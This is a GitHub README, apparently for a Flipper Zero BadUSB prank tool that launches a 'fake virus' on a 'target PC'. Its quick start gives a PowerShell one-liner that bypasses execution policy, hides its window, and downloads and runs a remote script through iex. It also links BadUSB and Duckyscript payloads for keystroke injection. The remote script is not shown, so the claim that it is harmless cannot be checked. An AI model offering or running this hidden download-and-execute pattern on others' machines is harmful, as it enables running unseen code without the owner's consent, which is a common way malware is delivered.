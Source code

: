 # Virus(fake)
### (WORKS ON WIN8+!)
## Introduction

Virus(fake) is a lightweight and plug-and-play tool designed for launching a fake "virus" on your target PC. its a completely harmless experience. No modifications, such as webhooks, are needed for Virus(fake) to work.

## Usage

### Prerequisites

- Target PC must have an active Wi-Fi connection.

### Quick Start

1. Open the "Run" dialog by pressing `Win + R`.
2. Copy and paste the following command:

    ```powershell
    powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command "[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; iwr -useb 'https://raw.githubusercontent.com/6uard1an/Cool-FLipper-Zero-BadUSB-s/main/Virus.ps1' | iex"
    ```

3. Press Enter to launch Virus(fake) on the target PC.
4. Enjoy the playful antics of the fake virus for the next few minutes.

## Additional Payloads

If you prefer using a Duckyscript payload or a Flipper Zero BadUSB payload, you can download the respective Virus.txt file from the repository.

### BadUSB Payload

- [Download Virus(fake) BadUSB Payload](https://github.com/6uard1an/Cool-FLipper-Zero-BadUSB-s/edit/main/Virus/Virus.txt)

## Disclaimer

Virus(fake) is intended for educational and entertainment purposes only. Use it responsibly and ensure compliance with applicable laws and regulations. The developer is not responsible for any misuse or unauthorized use of this tool.

---
